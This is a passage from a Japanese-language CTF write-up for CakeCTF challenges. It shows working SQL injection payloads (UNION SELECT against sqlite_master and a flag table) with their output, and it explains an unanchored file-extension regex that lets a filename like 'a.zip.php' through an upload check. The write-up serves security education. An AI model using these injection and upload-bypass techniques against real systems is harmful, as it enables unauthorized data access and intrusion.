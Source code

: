 スクリプトを書いてテーブルを漁ります:

```sh
$ python exploit.py "'OR 1=1 UNION SELECT NULL,tbl_name,NULL,NULL FROM sqlite_master /*" | jq
{
  "result": [
    {
      "nid": null,
      "species": "flag",
      "name": null,
      "age": null
    }
  ]
}

$ python exploit.py "'OR 1=1 UNION SELECT NULL,flag,NULL,NULL FROM flag /*" | jq
{
  "result": [
    {
      "nid": null,
      "species": "CakeCTF{BUG-REPORT-ACCEPTED:Reward=222-Matatabi-Sticks}",
      "name": null,
      "age": null
    }
  ]
}
```

### フラグ

```
CakeCTF{BUG-REPORT-ACCEPTED:Reward=222-Matatabi-Sticks}
```

## [web] ziperatops

266 pts, 11 solves

問題文:
> Zip Listing as a Service<br />
> * The flag is written in somewhere on the root directory of the machine.

zipファイルを投稿できて、その中身のファイル名一覧を表示できるサービスが与えられます。

### 解法

```php
        /* Check extension */
        if (preg_match('/^.+\.zip/', $filename, $result) !== 1)
            return array($dname, "Invalid extension (Only .zip is allowed)");
```
まずここの判定で、`'/^.+\.zip$/'`ではなく`'/^.+\.zip/'`で判定しているのがあやしいです。
`a.zip.php`みたいなファイル名も通過します。


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md